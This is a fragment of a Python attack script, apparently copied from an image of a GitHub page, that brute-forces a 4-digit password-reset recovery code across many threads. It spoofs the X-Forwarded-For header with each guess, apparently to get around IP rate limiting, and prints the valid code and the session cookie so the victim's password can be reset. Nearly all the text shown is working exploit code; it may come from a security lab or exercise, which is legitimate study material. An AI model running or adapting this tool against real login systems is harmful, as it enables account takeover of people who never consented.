 ```python
        
    except Exception as e:
        print(f"Request failed, exception: {e}")
        sys.exit()

    return

def enumerate_codes(codes):
    for code in codes:
        code_string = code
        try:               
            response = session.post(
                url, 
                headers={
                    'X-Forwarded-For': code
                } , 
                data={
                    'recovery_code': code,
                    's': 180
                },
                allow_redirects=False   
            )

            if stop_flag.is_set():
                return
            elif response.status_code == 302:
                stop_flag.set()
                print("Timeout reached. Try again.")
                return
            else:
                if invalid_code_message not in response.text:
                    stop_flag.set()
                    print(f"Recovery code found: {code_string}")                      
                    print(f"Password can now be reset using the session cookie: {response.request.headers["cookie"]}")
                    
                    return

        except Exception as e:
            print(e)
            pass
        
def main(): 
    global thread_count
    global session 
    
    if len(sys.argv) > 1:
        thread_count = int(sys.argv[1])

    print("Sending password reset request..")     
    send_password_reset_request()

    print(f"Brute-forcing recovery code..")
    code_range = 10000  
    threads = []
    thread_step = code_range // thread_count #Number of codes per thread 
     
    for i in range(thread_count):
        start = i * thread_step
        end = start + thread_step
       
        codes_thread_subset = range(start, end)
        codes_thread_subset = [f"{code:04d}" for code in codes_thread_subset]
```